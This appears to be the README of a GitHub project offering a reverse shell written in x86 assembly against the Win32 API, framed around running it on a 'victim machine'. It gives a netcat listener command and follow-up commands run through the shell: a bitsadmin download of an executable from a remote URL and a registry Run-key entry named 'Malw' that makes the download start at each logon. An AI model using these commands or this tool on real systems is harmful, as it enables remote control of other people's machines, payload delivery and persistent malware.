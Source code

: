 # ReverseShell
Reverse shell

This tool was written in Assembly x86 - Win32 API

When the program is executed in the victim machine, it will open a reverse shell back at the address of attacker (you can customize the attacker and the port address).

Simple usage:

The attacker must be start a server in my case I used netcat from a local Linux machine:
- nc -l 4444

Then when the program is started in the victmin machine, the attacker could perform command like:
- cmd /C net use
- cmd /C bitsadmin /transfer downloadjob /download /priority normal http://example.com/file.exe C:\Users\user\Documents\file.exe
- cmd /C reg add "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "Malw" /t REG_SZ /F /D "C:\Users\user\Documents\file.exe"

And so on...







